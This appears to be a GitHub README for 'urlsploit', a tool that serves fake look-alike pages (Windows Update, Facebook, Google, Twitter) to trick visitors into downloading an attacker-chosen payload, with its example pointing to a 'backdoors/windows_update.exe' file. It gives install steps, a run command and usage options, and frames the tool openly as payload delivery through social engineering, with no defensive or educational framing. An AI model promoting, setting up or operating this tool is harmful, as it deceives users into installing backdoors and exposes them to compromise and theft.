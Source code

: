 # urlsploit
Payload delivery via URL and some social engineering.

## Running Urlsploit
```
sudo python3 url.py -t windows -p /home/user/backdoors/windows_update.exe
```
The above command will start a Legit looking fake Windows update page that triggers file download.

![sample_one]()
![sample_two]()

## Installation 
```
git clone https://github.com/KAR13MA090/URLKAR13MA09
cd URLKAR13MA09
python3 -m pip install -r requirements.txt
```

### Usage 
```
$ python3 url.py --help
usage: url.py [-h] --t T --p P

optional arguments:
  -h, --help          show this help message and exit
  --t T, -template T  The template to use.
  --p P, -payload P   The path of payload to send.
```

### Templates
- [x] Facebook
- [x] Google 
- [x] Twitter
- [x] Windows Update
- [ ] Discord
- [ ] Instagram
#   U R L K A R 1 3 M A 0 9 
 
 
